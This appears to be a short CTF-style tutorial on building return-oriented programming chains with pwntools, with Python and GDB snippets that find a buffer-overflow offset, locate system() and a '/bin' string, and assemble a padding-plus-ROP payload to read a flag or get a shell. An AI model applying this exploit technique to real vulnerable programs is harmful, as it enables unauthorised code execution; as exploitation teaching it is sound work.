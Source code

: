 # Building ROPChains With PWNTools

1. Setup the Python script

```python3
from pwn import *   # import pwntools

context.log_level = "debug"   # Debugging information
context.binary = elf = ELF("./vuln")    # Set architecture info
io = process()    # Create a process with the loaded elf
rop = ROP(elf)    # Create the ROP object
```

2. Use GDB (pwndbg) to find the vulnerable buffer/offset to control the EIP/RIP

`cyclic`

3. Find useful functions by disassembling the binary (e.g. system(), usefulFunction(), print_flag(), you get the idea)

```bash
# in GDB
b main
run
search system
search exec
# OR
i functions
disassemble main    # disassemble other functions to find any interesting function calls
```

4. Find addresses of any strings in the binary that are required for the function call

```bash
# In GDB
b main
run
search /bin   # search for strings that contain "/bin" - adjust as needed
```

5. Use ROP in pwntools to create a ropchain which can be placed into your payload

```python3
# Using system("/bin/cat flag.txt) as an example
# address of "/bin/cat flag.txt" in the binary: 0x0804a030
rop.system(0x0804a030)
# print(rop.dump())   # prints the 'pretty' view of values with the corresponding instruction
# print(rop.chain())    # prints the chain which can be appended to your payload
```

6. Build your payload

```python3
payload = b""
payload += b"A" * offset
payload += rop.chain()
```

7. Send your payload and get your flag/shell!
